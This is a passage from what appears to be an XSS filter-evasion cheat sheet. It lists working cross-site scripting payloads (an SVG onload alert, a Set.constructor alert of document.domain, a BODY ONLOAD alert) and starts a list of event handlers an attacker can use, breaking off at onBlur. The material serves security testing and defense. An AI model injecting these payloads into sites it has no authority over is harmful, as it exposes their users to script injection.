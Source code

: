 ## Livescript (older versions of Netscape only)

    `<IMG SRC="livescript:[code]">`

## SVG object tag

    `<svg/onload=alert('XSS')>`

## ECMAScript 6

    `` Set.constructor`alert\x28document.domain\x29``` ``

## BODY tag

Method doesn't require using any variants of "javascript:" or
"\<SCRIPT..." to accomplish the XSS attack). Dan Crowley additionally
noted that you can put a space before the equals sign ("onload=" \!=
"onload ="):

`   <BODY ONLOAD=alert('XSS')>`

## Event Handlers

It can be used in similar XSS attacks to the one above (this is the most
comprehensive list on the net, at the time of this writing). Thanks to
Rene Ledosquet for the HTML+TIME updates.

The [Dottoro Web Reference](http://help.dottoro.com/) also has a nice
[list of events in JavaScript](http://help.dottoro.com/ljfvvdnm.php).

1.  `FSCommand()` (attacker can use this when executed from within an
    embedded Flash object)
2.  `onAbort()` (when user aborts the loading of an image)
3.  `onActivate()` (when object is set as the active element)
4.  `onAfterPrint()` (activates after user prints or previews print job)
5.  `onAfterUpdate()` (activates on data object after updating data in
    the source object)
6.  `onBeforeActivate()` (fires before the object is set as the active
    element)
7.  `onBeforeCopy()` (attacker executes the attack string right before a
    selection is copied to the clipboard - attackers can do this with
    the `execCommand("Copy")` function)
8.  `onBeforeCut()` (attacker executes the attack string right before a
    selection is cut)
9.  `onBeforeDeactivate()` (fires right after the activeElement is
    changed from the current object)
10. `onBeforeEditFocus()` (Fires before an object contained in an
    editable element enters a UI-activated state or when an editable
    container object is control selected)
11. `onBeforePaste()` (user needs to be tricked into pasting or be
    forced into it using the `execCommand("Paste")` function)
12. `onBeforePrint()` (user would need to be tricked into printing or
    attacker could use the `print()` or `execCommand("Print")`
    function).
13. `onBeforeUnload()` (user would need to be tricked into closing the
    browser - attacker cannot unload windows unless it was spawned from
    the parent)
14. `onBeforeUpdate()` (activates on data object before updating data in
    the source object)
15. `onBegin()` (the onbegin event fires immediately when the element's
    timeline begins)
16. `onBlur()` (in the case where another popup is loaded and window
    looses focus)